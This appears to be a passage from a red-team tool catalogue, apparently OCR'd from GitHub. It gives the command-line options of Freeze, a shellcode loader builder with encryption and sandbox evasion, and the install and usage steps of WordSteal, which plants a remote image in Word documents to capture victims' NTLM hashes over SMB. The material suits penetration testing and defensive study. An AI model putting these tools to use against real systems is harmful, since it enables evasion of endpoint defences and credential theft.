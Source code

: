   -I string
        Path to the raw 64-bit shellcode.
  -O string
        Name of output file (e.g. loader.exe or loader.dll). Depending on what file extension defined will determine if Freeze makes a dll or exe.
  -console
        Only for Binary Payloads - Generates verbose console information when the payload is executed. This will disable the hidden window feature.
  -encrypt
        Encrypts the shellcode using AES 256 encryption
  -export string
        For DLL Loaders Only - Specify a specific Export function for a loader to have.
  -process string
        The name of process to spawn. This process has to exist in C:\Windows\System32\. Example 'notepad.exe' (default "notepad.exe")
  -sandbox
        Enables sandbox evasion by checking:
                Is Endpoint joined to a domain?
                Does the Endpoint have more than 2 CPUs?
                Does the Endpoint have more than 4 gigs of RAM?
  -sha256
        Provides the SHA256 value of the loaders (This is useful for tracking)
image

Image used from https://www.blackhatethicalhacking.com/tools/freeze/

🔙WordSteal
This script will create a Microsoft Word Document with a remote image, allowing for the capture of NTML hashes from a remote victim endpoint.

Microsoft Word has the ability to include images from remote locations, including a remote image hosted on an attacker controlled SMB server. This gives you the opportunity to listen for, and capture, NTLM hashes that are sent when an authenticated victim opens the Word document and renders the image.

Install:

git clone https://github.com/0x09AL/WordSteal
cd WordSteal
Usage:

# Generate document containing 'test.jpg' and start listener
./main.py 127.0.0.1 test.jpg 1

# Generate document containing 'test.jpg' and do not start listener
./main.py 127.0.0.1 test.jpg 0\n
image

Image used from https://pentestit.com/wordsteal-steal-ntlm-hashes-remotely/
